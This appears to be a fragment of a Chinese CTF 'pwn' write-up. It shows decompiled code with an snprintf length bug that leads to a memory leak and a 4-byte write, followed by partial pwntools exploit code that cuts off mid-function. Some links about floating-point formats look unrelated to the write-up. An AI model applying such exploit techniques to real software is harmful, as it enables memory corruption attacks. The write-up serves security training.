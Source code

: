## vulnerability
```python
unsigned __int64 __fastcall do_enc_and_leak(char *res)
{
unsigned __int64 v1; // ST28_8
int RND; // eax
int rnd; // ST1C_4
int len; // eax
__int64 len_1; // ST20_8

v1 = __readfsqword(0x28u);
RND = fread_4();
rnd = RND;
*(_DWORD *)res = RND;
len = snprintf(res + 4, 0x104uLL, "%s", &msg);// ret value is the len to msg
len_1 = len;
*(_DWORD *)&res[len + 4] = rnd;               // someproble
do_xor(res);
do_leak(res, len_1 + 8);
return __readfsqword(0x28u) ^ v1;
```
这里的`snprintf`比较危险，返回值是`msg`的长度。所以我们可以利用填满`msg`来连接上后面的`key`导致`len`随意控制。
从而产生地址泄漏和任意4字节写`rnd`的问题。

## 利用
'睿智'的我没想到可以多次写。。。做了那么多pwn题还是那么死板实在丢人。
* leak mem
* 从高地址向低地址多次写，每次写上对的值再写下一个字节。

```python
def fill(offset,data):
key("\xff"*(0x10+offset)+'\x00')
i=0
while(1):
i+=1
#print i
enc("A"*0x100)
p.readuntil("--\n")
tmp=p.read(4)
res=""
for x in tmp:
res+=chr(ord(x)^0xff)
res=u32(res)
res=res>>24
if ((res&0xff)==data):
return    
```
## exp
```python
from pwn import *
def cmd(n):
p.sendlineafter(">>> ",str(n))
def key(key):
cmd(1)
p.sendafter(":\n",str(key))
def enc(e):
cmd(2)
p.sendafter(":\n",str(e))
def fill(offset,data):
key("\xff"*(0x10+offset)+'\x00')
i=0
while(1):
```

[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team